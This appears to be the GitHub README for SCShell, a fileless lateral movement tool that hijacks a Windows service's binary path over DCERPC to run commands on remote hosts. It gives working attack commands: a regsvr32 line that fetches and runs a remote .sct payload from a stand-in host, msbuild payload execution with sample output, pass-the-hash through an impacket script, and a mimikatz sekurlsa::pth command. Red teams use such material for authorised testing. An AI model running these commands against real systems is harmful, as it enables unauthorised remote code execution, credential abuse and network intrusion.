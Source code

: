 # SCShell

SCShell is a fileless lateral movement tool that relies on ChangeServiceConfigA to run commands. The beauty of this tool is that it does not perform authentication against SMB. Everything is performed over DCERPC.

The utility can be used remotely WITHOUT registering a service or creating a service. It also doesn't have to drop any file on the remote system* (Depend on the technique used to execute)

# How it work

Instead of creating a service it simply remotely open a service and modify the binary path name via the `ChangeServiceConfigA` API.

Then it starts the service.

Once the execution is completed the service binary path is reverted to the original one. The original service path is extracted using `QueryServiceConfigA`.

Everything is happening over DCERPC including the authentication.

![network](https://raw.githubusercontent.com/Mr-Un1k0d3r/SCShell/master/network.png)



# Usage

The current build is written in `C` but I will port it to `C#` and `PowerShell`.

```
Usage:
SCShell.exe target service payload domain username password
```

`target` can be set to `local` to run the payload locally

Remote execution
```
SCShell.exe 192.168.197.131 XblAuthManager "C:\windows\system32\cmd.exe /c C:\windows\system32\regsvr32.exe /s /n /u /i://your.website/payload.sct scrobj.dll" . administrastor Password
```

I recommend using `C:\windows\system32\cmd.exe /c` to make sure to payload will not be killed once the service stop. You NEED to use the full path.

You can also use a msbuild payload
```
SCShell.exe 192.168.197.131 XblAuthManager "C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj" . administrator Password
SCShell ***
Trying to connect to 192.168.197.131
Username was provided attempting to call LogonUserA
SC_HANDLE Manager 0x009ED250
Opening XblAuthManager
SC_HANDLE Service 0x009ED1B0
Service path was changed to C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj
Service was started.
```

I'm using the XblAuthManager as the target which is the Xbox Accessory Management Service

# Passing the Hash

scshell.py is a python2 & 3 implementation of SCShell. Using impacket project it can easily be used to perform the same lateral movement using pass the hash.

Installation
```
pip install impacket
```

Usage
```
python scshell.py DOMAIN/USER@target -hashes 00000000000000000000000000000000:ad9827fcd039eadde017568170abdecce
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Command need to use FULL path. No command output.
SCShell>

```

You can use the `C` utility to pass the hash. By default the current process token will be used. You can set the current process token using standard pass the hash approach.

On the local system
```
sekurlsa::pth /user:user /domain:domain /ntlm:hash /run:cmd.exe
```

Then run the SCShell.exe within the newly created cmd.exe.

# Compiling from source

The code was compiled on Windows using GCC Mingw compiler

# Credit
Mr.Un1k0d3r RingZer0 Team

Tazz0 for the moral support
